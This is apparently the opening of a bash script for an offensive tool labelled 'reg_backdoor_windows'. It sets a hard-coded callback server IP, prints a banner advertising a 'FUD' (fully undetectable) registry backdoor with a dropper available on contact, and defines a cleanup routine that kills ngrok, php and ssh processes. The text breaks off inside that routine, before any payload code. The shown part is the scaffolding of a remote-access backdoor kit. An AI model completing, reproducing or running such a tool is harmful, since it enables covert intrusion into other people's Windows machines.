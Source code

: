 #!/bin/bash

trap 'printf "\n";stop' 2
server_tcp="3.17.202.129" 

banner() {


printf "\e[1;91m     .---.                       .__           .__  .__    \e[93m                   .___      \e[0m \n"   
printf "\e[1;91m    /     \ ------->        _____|  |__   ____ |  | |  |   \e[93m    ____  ____   __| _/____  \e[0m \n"
printf "\e[1;91m    \.@-@./ ------>        /  ___/  |  \_/ __ \|  | |  |   \e[93m  _/ ___\/  _ \ / __ |/ __ \ \e[0m \n"
printf "\e[1;91m    / \_/ \ ----->         \___ \|   Y  \  ___/|  |_|  |__ \e[93m  \  \__(  <_> ) /_/ \  ___/ \e[0m \n"
printf "\e[1;91m   //  _ \ \              /____  >___|  /\___  >____/____/\e[93m____\___  >____/\____ |\___  >\e[0m \n"
printf "\e[1;91m  | \     )|                   \/     \/     \/         /__\e[93m___/   \/           \/    \/ \e[0m \n"
printf "\e[1;91m  /_ >  <_/ \_ reg_backdoor  \e[0m \n"
printf "\e[1;91m  \__/---\__/     _windows\e[0m \n"
printf "                                    \e[1;91m---------->> Coded By Kamaldeep Singh <<----------\e[0m \n"
printf "                                         \e[1;91m{Github: https://github.com/khacker1024}\e[93m\n"
printf "\n"



printf "\e[1;91m+----------------------------------------------+\e[0m \n"
printf "\e[1;91m|             Advance reg_backdoor$            |\e[0m \n"
printf "\e[1;91m+----------------------------------------------+\e[0m \n"
printf "\e[1;91m| For FUD REG_Backdoor along with Dropper Key  |\e[0m \n"
printf "\e[1;91m|    Contact: Kamaldeep Singh ---------<<<     |\e[0m \n"
printf "\e[1;91m+----------------------------------------------+\e[0m \n"


}

stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
checkssh=$(ps aux | grep -o "ssh" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
killall -2 ngrok > /dev/null 2>&1
fi

if [[ $checkphp == *'php'* ]]; then
killall -2 php > /dev/null 2>&1
fi
if [[ $checkssh == *'ssh'* ]]; then
killall -2 ssh > /dev/null 2>&1
fi
exit 1
